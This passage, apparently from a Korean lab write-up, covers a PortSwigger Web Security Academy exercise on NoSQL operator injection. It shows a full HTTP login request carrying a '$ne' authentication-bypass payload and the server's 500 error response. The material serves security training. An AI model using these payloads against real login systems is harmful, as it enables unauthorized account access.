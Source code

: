 4. 이번에는 다음을 테스트해본다. 

`{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`

```http
POST /login HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=JfmsNEjgFPT37HXmriKAf7uyEwrnvwiK
Content-Length: 40
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0ac900fe040e691d83b3647700400094.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

500에러 응답이 돌아왔다. HTML페이지에는 `Query returned unexpected number of records`라는 에러 메세지가 표시된다. 쿼리 수행결과 기대되는 것보다 많은 레코드가 조회되었다는 내용이다. 이 것으로 두 가지를 알게 되었다. 위의 passowrd 파라메터도 오퍼레이터 인젝션이 가능하다는 것과, 로그인시에는 쿼리의 수행결과가 한건이어야 로그인이 정상적으로 처리된다는 점이다. 

```http
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2395

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Exploiting NoSQL operator injection to bypass authentication</title>
    </head>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Exploiting NoSQL operator injection to bypass authentication</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
```